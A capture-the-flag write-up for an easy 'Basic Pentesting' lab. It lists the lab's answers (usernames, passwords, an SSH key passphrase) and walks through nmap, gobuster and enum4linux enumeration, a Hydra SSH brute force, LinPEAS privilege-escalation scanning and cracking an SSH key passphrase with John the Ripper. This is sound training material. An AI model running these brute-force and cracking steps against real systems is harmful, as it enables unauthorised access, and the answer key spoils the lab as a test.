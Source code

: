# Basic Pentesting Write-Up 🛡️🔍💻

**Date:** 02.02.2025  
**Difficulty:** Easy

---

## Questions and Answers: ❓📝✅

1. **What is the name of the hidden directory on the web server (enter name without /)?**  
   `development`
2. **What is the username?**  
   `jan`
3. **What is the password?**  
   `armando`
4. **What service do you use to access the server (answer in abbreviation in all caps)?**  
   `SSH`
5. **What is the name of the other user you found (all lower case)?**  
   `kay`
6. **What is the final password you obtain?**  
   `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

---

## Obtained Information: 📄🔎

- **Target IP Address:** `<IP_ADDRESS>`
- **Web Server:** Apache/2.4.18 (Ubuntu)
- **Potentially weak credential policy** – Jan's password is easily crackable.
- **Apache Struts version:** 2.5.12 (REST plugin).
- **SMB Protocol detected.**
- **Users discovered:** `jan` and `kay`.
- **jan's password:** `armando`
- **kay's private key passphrase:** `beeswax`

---

## Walkthrough 🚀🕵️‍♂️

### 1. Initial Reconnaissance with Nmap 🔍

To identify open ports and running services:

```bash
nmap -sV <IP_ADDRESS>
```

**Results:**

- Open ports: `22 (SSH)`, `80 (HTTP)`, `139 (SMB)`, `445 (SMB)`, `8009 (AJP)`, `8080 (Tomcat)`
- Host is running **Apache 2.4.18**, **SMB**, and **Apache Tomcat 9.0.7**

### 2. Web Enumeration with Gobuster 🌐🛠️

Checking for hidden directories:

```bash
gobuster dir -u "http://<IP_ADDRESS>:80" -w ./Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -r
```

**Results:**

- `/development` (Status: 200) ✅
- `/server-status` (Status: 403)

Inside `/development`, we find two text files: `j.txt` and `dev.txt`, revealing a weak password policy and the use of **Apache Struts 2.5.12**.

### 3. SMB Enumeration 📂📡

Checking for SMB shares and users:

```bash
enum4linux -a <IP_ADDRESS>
```

**Results:**

- **Discovered users:** `jan` and `kay`

### 4. Brute-Forcing SSH Credentials 🔑🛠️

Since `jan` has weak credentials, we attempt brute force with Hydra:

```bash
hydra -l jan -P ./Tools/wordlists/rockyou.txt ssh://<IP_ADDRESS>
```

**Results:**

- **jan's password:** `armando` ✅

Using SSH to connect:

```bash
ssh jan@<IP_ADDRESS>
```

### 5. Privilege Escalation with LinPEAS 🏗️🔍

Uploading and running LinPEAS to identify privilege escalation vectors:

```bash
scp ./linpeas.sh jan@<IP_ADDRESS>:/dev/shm
ssh jan@<IP_ADDRESS>
chmod +x /dev/shm/linpeas.sh
./dev/shm/linpeas.sh > linpeas.txt
```

**Results:**

- **RSA private key found in kay's home directory.**

### 6. Cracking RSA Key with John the Ripper 🗝️💥

Extracting and cracking the key:

```bash
python3 /opt/john/ssh2john.py ./rsa_key > hash.txt
john --wordlist="./Tools/wordlists/rockyou.txt" --format=ssh hash.txt
```

**Results:**

- **Passphrase for RSA key:** `beeswax` ✅

Using the key to log in as `kay`:

```bash
chmod 600 rsa_key
ssh -i rsa_key kay@<IP_ADDRESS>
```

### 7. Obtaining the Final Flag 🏁🔓

Inside kay's home directory:

```bash
cat pass.bak
```

**Final Password:** `heresareallystrongpasswordthatfollowsthepasswordpolicy$$` ✅

---

## Reflection & Questions for Further Research 🤔💡

- **Why does Metasploit’s `auxiliary(scanner/smb/smb_enumusers)` fail while `enum4linux` works?**
- **Why is it recommended to upload files to `/dev/shm`?**
- **Why must `chmod 600 rsa_key` be applied before using the SSH key?**

---

## Summary & Takeaways 📌📖

- **Enumeration is key.** Each step built upon previous discoveries.
- **Weak passwords are a common vulnerability.** Using Hydra to crack jan’s password allowed further access.
- **Privileged file discovery is crucial.** The RSA key in kay’s home directory was the gateway to full access.
- **Automation speeds up workflow.** Tools like `nmap`, `gobuster`, `hydra`, and `john` streamline penetration testing.
